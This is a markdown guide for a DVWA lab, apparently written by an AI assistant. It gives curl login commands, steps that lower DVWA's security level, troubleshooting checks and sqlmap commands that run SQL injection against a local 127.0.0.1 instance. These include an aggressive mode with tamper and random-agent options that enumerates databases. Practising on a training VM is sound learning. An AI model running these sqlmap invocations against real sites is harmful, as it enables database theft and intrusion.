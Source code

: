 # DVWA SQLi — TL;DR Fix & sqlmap Commands (Copy‑Paste for GitHub)

**Purpose:** A short, copy‑and‑pasteable markdown document you can upload to GitHub. It contains the *exact* commands to fix the `security=impossible` / 302 redirect problem, verify a working DVWA session, and run `sqlmap` reliably. Use these commands **one line at a time** in your VM terminal.

---

## How to use
1. Save this file in your repository (e.g., `DVWA_SQLi_TLDR_and_Fix.md`).
2. Open your VM terminal. Copy and paste the commands **one at a time**.
3. If any command output does not match the expected result (see notes below), paste that output into the issue/PR or message where you need help.

---

## Quick summary (what this fixes)
- Forces a fresh logged‑in DVWA terminal session (programmatic login).
- Ensures `security=low` is set for that session.
- Tests the SQLi page with the explicit cookie header.
- Runs `sqlmap` using that same cookie (reliable) or runs a more aggressive mode if needed.

---

## **One‑shot TL;DR** (run these **three** command groups in order)

**1) Recreate cookie and set security low (overwrite `cookies.txt`):**
```bash
rm -f ~/cookies.txt
curl -s -c ~/cookies.txt -d "username=admin&password=password&Login=Login" "http://127.0.0.1/dvwa/login.php" > /dev/null
curl -s -b ~/cookies.txt -c ~/cookies.txt -d "security=low&seclev_submit=Submit" "http://127.0.0.1/dvwa/security.php" > /dev/null
```

*Expected:* `~/cookies.txt` exists and contains a `PHPSESSID` line and a `security` cookie set to `low`.

**2) Test the vulnerable page using an explicit cookie header:**
```bash
SESSION=$(awk '/PHPSESSID/ {print $7; exit}' ~/cookies.txt); echo "SESSION=$SESSION"
curl -s -I --cookie "PHPSESSID=${SESSION}; security=low" "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" | sed -n '1,12p'
```

*Expected:* `HTTP/1.1 200 OK` (or at least **not** `302 -> ../../login.php`). If you still see `302`, see the **Troubleshooting** section below.

**3) If step 2 is `200 OK`, run sqlmap with the same cookie (reliable):**
```bash
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=${SESSION}; security=low" -p id --batch --level=3 --risk=2 --dbs | tee sqlmap-dbs.txt
```

*If sqlmap reports not injectable, try the aggressive mode (same cookie):*
```bash
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=${SESSION}; security=low" -p id --batch --level=5 --risk=3 --technique=BEU --random-agent --tamper=space2comment --dbs | tee sqlmap-aggr.txt
```

---

## Troubleshooting — quick checks (run these if you still get `302`)

**A — Show cookies file:**
```bash
sed -n '1,200p' ~/cookies.txt
```
Should show `PHPSESSID` and `security	low`.

**B — Check DVWA setup page (setup may be required):**
```bash
curl -s "http://127.0.0.1/dvwa/setup.php" | sed -n '1,80p'
```
Look for `Create / Reset Database`.

**C — Check DVWA DB tables:**
```bash
mysql -u dvwauser -p -D dvwa -e "SHOW TABLES;"
```
(Enter `dvwapass` or the password you configured.) Expect a list of tables; if DB missing, run setup UI.

**D — Check PHP session save path & perms:**
```bash
php -i | grep session.save_path -n
ls -ld /var/lib/php/sessions 2>/dev/null || ls -ld /tmp
stat -c '%U %G %a %n' /var/lib/php/sessions 2>/dev/null || true
```
If not writable by `www-data`, run these to fix:
```bash
sudo mkdir -p /var/lib/php/sessions
sudo chown -R www-data:www-data /var/lib/php/sessions
sudo chmod 1733 /var/lib/php/sessions
sudo systemctl restart apache2
```

**E — If the server forces `security=impossible` on every new session**
Edit the DVWA config default security (backup first):
```bash
sudo cp /var/www/html/dvwa/config/config.inc.php /var/www/html/dvwa/config/config.inc.php.bak
sudo nano /var/www/html/dvwa/config/config.inc.php
# set default security to 'low' if present, save and exit
sudo systemctl restart apache2
```

---

## Uploading to GitHub
1. Save this file as `DVWA_SQLi_TLDR_and_Fix.md` in your repo.  
2. `git add DVWA_SQLi_TLDR_and_Fix.md && git commit -m "Add DVWA SQLi TLDR fix guide" && git push`.

---

## Notes & safety
- Only run these commands against your local DVWA VM. Do not run against third‑party websites.  
- If you want a longer version with more explanation and manual checks, use the full guide I previously created.

---

**End of TL;DR guide.**

